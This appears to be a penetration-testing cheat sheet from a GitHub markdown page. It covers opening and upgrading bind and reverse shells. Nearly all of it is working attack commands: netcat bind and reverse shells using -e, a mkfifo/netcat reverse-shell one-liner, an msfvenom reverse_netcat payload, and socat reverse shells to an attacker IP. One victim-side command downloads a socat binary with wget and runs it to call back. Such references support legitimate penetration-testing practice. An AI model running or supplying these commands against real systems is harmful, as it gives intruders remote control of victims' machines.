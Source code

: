 ### Bind/Reverse Shells

#### Kali Shells
```
# Several shells located in Kali at
/usr/share/laudanum/
```

#### Bind Shell (don't work behind firewalls)
```
# On Windows machine offer shell
nc -lvp 4444 -e cmd.exe

# On Kali machine connect
nc -nv win.dow.si.p 4444
```
#### Reverse Shell
```
# On Kali Machine listen for connection
nc -lvp 4444

# On target machine
nc -nv att.ac.kin.gip 4444 -e /bin/bash
```
### Improving your Shell
```
# Python
python -c 'import pty; pty.spawn("/bin/sh")'
# Then ctrl-z to background shell and run
stty raw -echo
fg
# It will look ugly but just type the following
reset
# If this shell is the incorrect size for your terminal, type
stty size
# And specify the size
stty -rows 48 -columns 120

# Perl
perl —e 'exec "/bin/sh";'
```
### If using netcat and -e option not available, use this one liner
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```

### Error opening terminal: 
```
# If getting Error opening terminal: xterm-256color.
export TERM=xterm
```
